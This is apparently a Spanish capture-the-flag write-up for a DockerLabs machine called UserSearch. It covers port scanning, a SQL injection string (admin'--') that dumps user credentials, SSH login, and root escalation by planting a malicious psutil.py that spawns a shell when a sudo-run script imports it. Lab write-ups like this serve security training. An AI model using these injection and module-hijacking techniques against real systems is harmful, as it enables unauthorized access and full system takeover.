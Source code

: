 # User Search

# Enumeración

Empezamos con un escaneo de los puertos.

`sudo nmap -p- --open -sC -sS -sV --min-rate=5000 -n -Pn -vvv 172.18.0.2 -oN UserSearch`  

- `-p-` : Todos los puertos
- `--open` : Todos los puertos abiertos
- `-sC` : Escaneo de todos los scripts
- `-sS` : Escaneo de todos los servicios
- `-sV` : Escaneo de todas las versiones de los servicios
- `--min-rate 5000` : Establece mínimo envío de paquetes mínimos 5000/s
- `-n` : No aplica resolución DNS
- `-Pn` : Omisión de detección de hosts
- `-vvv` : Verbose - Muestra toda la información

# Resultado escaneo  

![U](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/UserSearch/U_1.jpg) 

Tenemos 2 puertos abiertos, el 22 y el 80.  
Echemos un vistazo a la web para ver si encontramos algo interesante.  

![U](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/UserSearch/U_2.jpg)   

Intentemos escribir **admin**, por ejemplo, y veamos qué sucede.  

![U](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/UserSearch/U_3.jpg)   

¡Bien!  
Veamos qué nos devuelve un nombre de usuario y una contraseña.  
Si intentamos usar estas credenciales para acceder a través de SSH, no funciona.  

![U](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/UserSearch/U_4.jpg)   

Lo que podemos hacer es verificar si existe algún tipo de vulnerabilidad de SQL Injection en este panel web, y efectivamente, al ingresar la cadena **admin'--'**, nos son devueltos otros dos usuarios más.  

![U](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/UserSearch/U_5.jpg)    

¡Perfecto!  
Intentemos nuevamente autenticarnos a través de SSH y verifiquemos si podemos iniciar sesión con el usuario **kvzlx**.  

![U](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/UserSearch/U_6.jpg)    

# Escalada de privilegios  

Ejecutemos, como de costumbre, el comando `sudo -l` para ver si podemos elevar nuestros privilegios a root.  

![U](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/UserSearch/U_7.jpg)   

Podemos ejecutar el script **system_info.py** presente en el directorio home sin necesidad de especificar una contraseña.  
Vamos a ver su contenido.  

![U](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/UserSearch/U_8.jpg)   

Lo que podríamos hacer sería crear en el mismo directorio que contiene el script, un archivo llamado `psutil.py` con el siguiente contenido:  

`import os
os.system('/bin/bash')
`

Así que ahora podemos ejecutar el comando `sudo /usr/bin/python3 /home/kvzlx/system_info.py` y...

![U](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/UserSearch/U_9.jpg)    

¡Listo!  
¡Ya somos root!









